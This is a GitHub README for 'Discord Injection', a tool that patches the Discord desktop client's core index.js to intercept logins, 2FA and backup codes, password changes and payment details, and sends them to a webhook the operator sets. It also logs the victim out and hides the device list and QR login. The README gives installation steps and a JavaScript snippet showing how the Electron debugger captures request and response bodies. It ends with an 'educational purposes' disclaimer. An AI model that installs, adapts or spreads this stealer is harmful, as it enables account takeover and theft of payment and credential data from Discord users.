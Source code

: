 <h1 align="center">
  Discord Injection 💉
</h1>

<p align="center">
   Discord HTTP requests interception POC, including backup codes request and many others !
</p>

## Features
- Intercept login, register and 2FA login requests
- Intercept backup codes requests
- Intercept email/password changes requests
- Intercept credit card/paypal adding
- Logout user after initial injection
- Block usage of QR Code to login
- Block request to see devices

## Installation
- Completely close Discord
- Copy the [injection code](https://raw.githubusercontent.com/hackirby/discord-injection/main/injection.js) inside your Discord desktop core:

`%APPDATA%\Local\Discord\app-<app-version>\modules\discord_desktop_core-<core-version>\discord_desktop_core\index.js`

- Replace `%WEBHOOK%` by your Discord webhook. The informations intercepted will be sent this way.
- Restart Discord

## Preview
### Backup codes sniffing
![image](./assets/codes.png)
### Devices blocking
![image](./assets/devices.png)

## How does backup codes sniffing work ?
I use the [debugger](https://www.electronjs.org/docs/latest/api/debugger) instead of the [WebRequests instance methods](https://www.electronjs.org/docs/latest/api/web-request#instance-methods). It allow me to get request body AND response body:

```js
mainWindow.webContents.debugger.on('message', async (_, method, params) => {
    if (method !== 'Network.responseReceived') return;
    if (![200, 202].includes(params.response.status)) return;

    const responseUnparsedData = await mainWindow.webContents.debugger.sendCommand('Network.getResponseBody', {
        requestId: params.requestId
    });
    const responseData = JSON.parse(responseUnparsedData.body);

    const requestUnparsedData = await mainWindow.webContents.debugger.sendCommand('Network.getRequestPostData', {
        requestId: params.requestId
    });
    const requestData = JSON.parse(requestUnparsedData.postData);
})
```
The backup codes are in the response body of `/mfa/codes-verification` request

## Contributing
If you wish to contribute to this project, kindly open an issue or submit a pull request with your proposed changes. We warmly welcome contributions from the community.

## Enjoying the Project?
- Leave a Star 🌟: Click on the star button at the top of the GitHub repository to show your appreciation.
- Follow me on GitHub: Stay updated with the latest developments by following my GitHub profile.
- Donate ☕: If you're feeling generous and would like to contribute financially, you can donate to help sustain and improve this project. Every little bit helps!

<a href='https://ko-fi.com/hackirby'><img src='https://storage.ko-fi.com/cdn/kofi3.png' width=150></a>

## License
This project is licensed under the MIT License. For more information, please consult the LICENSE file.

## Acknowledgements

Special thanks to Rdimo for the injection persistence functions.

## Disclaimer:

### Important Notice:
This injection is inteded for educational purposes only. This is provided strictly for educational and research purposes. Under no circumstances this should be used for any malicious activities, including but not limited to unauthorized access, data theft, or any other harmful actions.

### Usage Responsibility:

By accessing and using this injection, you acknowledge that you are solely responsible for your actions. Any misuse of this injection is strictly prohibited, and the creator (hackirby) disclaims any responsibility for how this injection is utilized. You are fully accountable for ensuring that your usage complies with all applicable laws and regulations in your jurisdiction.

### No Liability:

The creator (hackirby) of this injection shall not be held responsible for any damages or legal consequences resulting from the use or misuse of this software. This includes, but is not limited to, direct, indirect, incidental, consequential, or punitive damages arising out of your access, use, or inability to use this injection.

### No Support:

The creator (hackirby) will not provide any support, guidance, or assistance related to the misuse of this injection. Any inquiries regarding malicious activities will be ignored.

### Acceptance of Terms:

By using this injection, you signify your acceptance of this disclaimer. If you do not agree with the terms stated in this disclaimer, do not use this injection.

